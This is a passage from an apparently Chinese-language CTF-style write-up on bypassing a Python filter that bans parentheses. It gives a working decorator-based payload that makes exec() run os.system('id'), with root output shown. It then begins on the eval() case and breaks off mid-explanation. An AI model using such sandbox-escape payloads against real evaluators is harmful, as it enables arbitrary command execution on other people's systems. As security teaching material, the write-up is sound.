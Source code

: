核心概念就是要找回傳值是可控字串的 callable。因為是字串，所以可以用 hex 表示來繞括號。



所以最終 Payload：

```python
def safe_exec(expr):
  if '(' in expr or ')' in expr:
    raise TypeError("safe_eval does not allow ().")
  return exec(expr)


payload = "@exec\r@\"__import__\\x28'os'\\x29.system\\x28'id'\\x29\".format\rclass Z:pass"
safe_exec(payload)
"""
uid=0(root) gid=0(root) groups=0(root)
"""
```



不過這種裝飾器的繞法只能用在 exec，eval 的話是吃 expression，就不支援裝飾器語法了，所以就要想辦法繞！

## safe_eval（expression）有沒有辦法執行任意指令？

把題目再貼過來一次

```python
def safe_eval(expr):
  if '(' in expr or ')' in expr:
    raise TypeError("safe_eval does not allow ().")
  return eval(expr)

print(safe_eval(input()))
```

幫大家測試過了，直接拿 safe_exec 的 Payload 貼會有報錯

```bash
Traceback (most recent call last):
  File "/private/tmp/a/test.py", line 6, in <module>
    print(safe_eval(payload))
          ^^^^^^^^^^^^^^^^^^
  File "/private/tmp/a/test.py", line 4, in safe_eval
    return eval(expr)
           ^^^^^^^^^^
  File "<string>", line 1
    @exec
    ^
SyntaxError: invalid syntax
```

那這樣要怎麼繞呢？

直接講重點就是：把 Python 裡面的預設行為蓋掉，然後再觸發就可以成功呼叫。

具體來說，Python 物件裡面有一些 [魔術方法](https://docs.python.org/3/reference/datamodel.html#emulating-numeric-types) 可以來控制運算子行為（加、減、乘、除、取值），例如我可以這樣寫：
